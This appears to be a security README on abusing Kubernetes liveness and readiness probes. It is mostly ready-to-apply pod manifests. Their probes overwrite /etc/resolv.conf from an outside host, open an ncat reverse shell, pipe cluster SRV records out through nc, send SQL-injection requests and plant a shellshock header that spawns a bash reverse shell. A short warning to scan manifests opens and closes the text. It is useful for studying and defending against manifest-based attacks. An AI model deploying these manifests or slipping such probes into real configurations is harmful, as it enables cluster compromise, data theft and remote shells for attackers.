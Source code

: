 ## Exploiting applications using livenessProbes in Kubernetes
### Introduction
Startup, readiness, and liveness probes are very well described in the Kubernetes documentation. <br>
Kubelet uses these probes defined in the pod manifest to verify whether a pod is booting, ready to accept traffic and still alive.<br>
<br>
It is `kubelet` who actually executes the probes (and not the pod itself). <br>

There are different ways the probes are executed. <br>
- httpGet <br>
- exec <br>

The problems described here are considered 'as designed', as you should download containers from a trusted source according to the reviewers. <br>
The examples below shows that trusted sources of container images will not solve the problem, neither will image scanning. <br><br>
To prevent an attack from happening, it is mandatory to scan the Kubernetes pod and deployment manifests rigorously before deploying. <br>

### Examples1: Overwriting files on the pod filesystem - spoofing websites
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec15
spec:
  containers:
  - name: liveness
    image: xxradar/hackon
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      exec:
        command:
        - curl
        - bd.kubiosec.tech:8080/host.txt
        - -o 
        - /etc/resolv.conf
      initialDelaySeconds: 5
      periodSeconds: 5
EOF
```

### Examples2: Installing applications the pod at deployment (BE PATIENT ... takes about 1min)
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec39
spec:
  containers:
  - name: liveness
    image: ubuntu
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    readinessProbe:
      exec:
        command:
        - apt-get 
        - update
      initialDelaySeconds: 5
      periodSeconds: 10
      timeoutSeconds: 60
    livenessProbe:
      exec:
        command:
        - apt-get 
        - install
        - -y
        - curl
      initialDelaySeconds: 60
      periodSeconds: 100
      timeoutSeconds: 60
EOF
```
Even better -- command chaining :-)
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec16
spec:
  containers:
  - name: liveness
    image: xxradar/hackon
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      exec:
        command:
        - bash
        - -c
        - apt-get install ncat ; ncat -e /bin/bash bd.kubiosec.tech 8889 &
      initialDelaySeconds: 30
      periodSeconds: 5
EOF
```
SVC extraction (You can also use UDP to extract information)
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec21
spec:
  containers:
  - name: liveness
    image: xxradar/hackon
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      exec:
        command:
        - bash
        - -c
        - dig +noall +answer srv any.any.svc.cluster.local | nc bd.kubiosec.tech  8889 
      initialDelaySeconds: 30
      periodSeconds: 5
EOF
```
### Examples3: Attacking http(s) endpoints using sql injection, XXS, ... 

```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness3
spec:
  containers:
  - name: liveness
    image: ubuntu
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      httpGet:
        host:bd.kubiosec.tech
        path: /?'OR 1=1--
        port: 8080
        httpHeaders:
          - name: User-Agent
            value: xxxxxxxxx
EOF
```
```
22:03:04.693794 IP 192.168.0.131.50723 > 198.199.124.250.http-alt: Flags [P.], seq 1:116, ack 1, win 2053, options [nop,nop,TS val 2487114541 ecr 6590553], length 115: HTTP: GET /?'OR 1=1-- HTTP/1.1
  0x0000:  ac22 058e 607c 3c22 fb51 bf41 0800 4500  ."..`|<".Q.A..E.
  0x0010:  00a7 0000 4000 4006 3564 c0a8 0083 c6c7  ....@.@.5d......
  0x0020:  7cfa c623 1f90 8580 94d6 96d2 2b3d 8018  |..#........+=..
  0x0030:  0805 c39c 0000 0101 080a 943e 5b2d 0064  ...........>[-.d
  0x0040:  9059 4745 5420 2f3f 274f 5220 313d 312d  .YGET./?'OR.1=1-
  0x0050:  2d20 4854 5450 2f31 2e31 0d0a 486f 7374  -.HTTP/1.1..Host
  0x0060:  3a20 7777 772e 7261 6461 7268 6163 6b2e  :.www.radarhack.
  0x0070:  636f 6d3a 3830 3830 0d0a 5573 6572 2d41  com:8080..User-A
  0x0080:  6765 6e74 3a20 4d79 5573 6572 4167 656e  gent:.MyUserAgen
  0x0090:  740d 0a41 6363 6570 743a 202a 2f2a 0d0a  t..Accept:.*/*..
  0x00a0:  436f 6e6e 6563 7469 6f6e 3a20 636c 6f73  Connection:.clos
```
### Examples4 : Attacking http(s) endpoints using shellshock
```
apiVersion: v1
kind: Pod
metadata:
   name: radarhack-pod3
   labels:
      pod: radarhack
spec:
  containers:
  - name: radarhack
    image: docker.io/xxradar/naxsi5
    ports:
    - containerPort: 80
    livenessProbe:
      httpGet:
        host: www.radarhack.com
        path: /index.html?test=' or 1=1--
        port: 8080
        httpHeaders:
        - name: Custom-Header
          value: Awesome
        - name: X-Frame-Options
          value: () { :;};echo;/bin/nc -e /bin/bash 192.168.81.128 443
      initialDelaySeconds: 3
      periodSeconds: 3
 ```

### Conclusion
Many things are written on securely deploying applications on kubernetes. Keep in mind that all aspects need full attention. Generating and building Kubernetes manifest is also developping code.
